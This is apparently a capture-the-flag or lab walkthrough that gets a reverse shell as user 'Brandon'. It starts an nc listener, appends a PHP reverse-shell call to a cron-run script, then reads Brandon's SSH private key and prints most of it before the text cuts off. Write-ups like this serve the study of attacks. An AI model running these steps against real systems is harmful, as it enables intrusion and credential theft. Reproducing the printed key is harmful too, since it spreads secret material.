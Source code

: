 Start nc listener on kali (it can be the same port since it is already bound):

```
nc -lnvp 1337
```

Command to execute reverse shell:

```
echo "php /var/www/html/temp/php-reverse-shell.php" >> /etc/log-time.sh
```

* Wait one minute and you will receive your reverse shell as Brandon!

### Stealing Brandon's Private Key (SSH)

* cat /home/brandon/.ssh/id\_rsa
* Copy the entire key

id\_rsa:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAs+x9z4/BTRrGWkTd4NW8NNfCbzMCYSw6S7Ll6BPlE1njzIoRSU80
8fF7jhm+WLgbW62UlH/HcVAKG9rgKHS7toUKS+KjTfavSDbfnVUNcGl5LV7IDRpXI0GTs5
rP2yCwQdjYm1zg0qkVgZnASNajrLbuhglAXb7WlbJgUDjpn/ApFGbjO8+h5jxPBr4k84jV
RCXvnMdYCoL8y8E4bimrlcLeEe10aCwZrW1iegt+BopkD7uIEeOFB7E/FmQR5RcDnEWP5i
w8xFpjJd+iSRWNaRfB8ufbPQTzyOVHLqSbxnzGg+/cHjXCvc1cuHuZ9uWZrAozR7L1WROK
cckzH3VOOa6GilCzewz+ziDVnPgRPojl9FijaBdt2ytOHpamK0g5U2li92eZNVVfHUZXa5
LUiQzZCIPdZAlssYNFeNG4fP9GoG0fy+XMlywpnwCIBQrZ86XC6OAFwCdRY1IYaO5XjPxa
yNEd46ZA/8yh0VwRstQk/3lVoMbKbNzLmCknZnn9Cuv8Ki/1LB0VU8ZXPbNK+0xe3HfjqX
kqMYum3ldR9pRudiuB+D9L9wr1h36xcgZeiRiqX3yl1ydgahiyp+EwZJpRmtUaVIRRY624
2k8zWB/EgiGkIknuOrWmN8vnXhl5aZZOwmSwbFVQJv7ai9s9OElV5/06KRxYBYF/ph79hW
8AAAdIXXmek115npMAAAAHc3NoLXJzYQAAAgEAs+x9z4/BTRrGWkTd4NW8NNfCbzMCYSw6
S7Ll6BPlE1njzIoRSU808fF7jhm+WLgbW62UlH/HcVAKG9rgKHS7toUKS+KjTfavSDbfnV
UNcGl5LV7IDRpXI0GTs5rP2yCwQdjYm1zg0qkVgZnASNajrLbuhglAXb7WlbJgUDjpn/Ap
FGbjO8+h5jxPBr4k84jVRCXvnMdYCoL8y8E4bimrlcLeEe10aCwZrW1iegt+BopkD7uIEe
OFB7E/FmQR5RcDnEWP5iw8xFpjJd+iSRWNaRfB8ufbPQTzyOVHLqSbxnzGg+/cHjXCvc1c
uHuZ9uWZrAozR7L1WROKcckzH3VOOa6GilCzewz+ziDVnPgRPojl9FijaBdt2ytOHpamK0
g5U2li92eZNVVfHUZXa5LUiQzZCIPdZAlssYNFeNG4fP9GoG0fy+XMlywpnwCIBQrZ86XC
6OAFwCdRY1IYaO5XjPxayNEd46ZA/8yh0VwRstQk/3lVoMbKbNzLmCknZnn9Cuv8Ki/1LB
0VU8ZXPbNK+0xe3HfjqXkqMYum3ldR9pRudiuB+D9L9wr1h36xcgZeiRiqX3yl1ydgahiy
p+EwZJpRmtUaVIRRY6242k8zWB/EgiGkIknuOrWmN8vnXhl5aZZOwmSwbFVQJv7ai9s9OE
lV5/06KRxYBYF/ph79hW8AAAADAQABAAACAQCbW7BC4mFJ/72YQnDH7CZoBonIVOZQG812
gdINM+iQbgTKH8nPYEpaQ2api8cVelt9LQPnufHwAOnJpZP6utk/P99lKRxTfJdbpq4tfz
xsfVZ5+6aH0d+9/KjZ4+pozvAC24glluw2WnPMhYNIIbYQs6CAMkrW56sIdY6+lnX8eXYv
PKwngCDO2fJu4w6rDtL/1jXxTRvTb8ly8rOUQ/z6AtqX5k6miLXfT11B/txiL2s5Pne+4p
OC0eSko+Hjy5x9en9Hg5kw/s8v68uIiciiHzaEVPm01arfJELznoU3vZP4ZsvNdiRimYnf
bjLCwvyPVftzhK5frQTVPaMcHcFdkEW3FxoCA1R6SdRJgO1Ysa6D/UaPiqzaaDMGEicYAb
JCeVEm1Lv6KfkGZXGB8oGh+oHk4h4DXPP0GX3hauPKbmpj6hdcs+REjzk1GI2QO96tLnOq
h0Acx07/p+NBFGbKyxnMOP1HdgyXI+M5FWoyH15A3dfs3DhFVFA6gS+LthWoy0GsfQ39qJ
/Ywj8ZFmoBWXQJdos6D3XDWQqzukJGviXh61Fc9E7Jo0OltQQDBaqA2N1tZRQsyi7pAudQ
3FZKyWUtnvYSF/BTCPzxwgo6Khg2fF8RNJwZr0VWryomPN9PXMqUbufAWLaoy1DIzwqjHQ
p9muzbXNRXi5k0Dj+Z4QAAAQEAsZaiqILp9em+IPJS6b2Q5fO/prLRkfarlYBYsWF0yOYi
xc4Pnh5yCTNgJ/HPDX0ChKf+QJ9RMFs+FO6PCbBiyNXdx7nepDYtKmECAdZgx8zsHRH7dg
BYWuYamxEMowCPrNTWf1yJUWy2c/p0R3GiAKgMnI1mDrB6f4sY0rxtLeuBVkZWehPjZa/E
h5EkILiKz+4ko2gNbVGL0cw/SwR8c8bOgy3cvI5o1F6tIta9hgtutLGjbt3sVFBIPPisdS
9OKncUKNtbHZbL6lVMqKVfs0KlRWthRdTgWrc5N2BYp5/hvPO/d9FtqJoLk54IjZZ4oEZd
KBotAlbnVARuvupATwAAAQEA37zMtF17AHBLKIHyxopMx4CSmaAeAA1rDPnGxVPqap4mCd
81HD8YwrcR95NyRAPLSbgb5yCX6kH8EixlCA7yKwXKKH9/XpDYa8hDgIds9Mqq0jP7cCNd
eUPtYTuluoJrCnFr1nCuu+z9BzWrmKg2xlH0S2xUHLna1w5BwXGEyfHLu4OOiw+CPO0puG
HKf54ku4qsodvDFdjviMU0aDxjHUFA9YLlTbzRWzvjIUkWAjnwoEnTu6oUAWI1ztTTYdGc
FY3JbiOtmOX/6Ao/0y/fx5ijTlbvnkhhGOSlyNXGLu6CLNBKU+S+3Nkvxt5o2FFeuvmdhj
oyOBKbUzAeg6KpUQAAAQEAzd5SkXgeV/6ATLB/R37gIotxQ434AnKWVxjnKfzrWQiak3/5
8n2ttjHlz9lziaLocIc73GgWDPT4QKJSevJGd+QD446FahvmVBJHdLeETlK9RQfZmtlS9k
74f+b8jq+AmjkheA2A+SqJC71PW3LAY4EdoI0T4V0X47REnY/nhBx161JusR93UHaxJ38e
```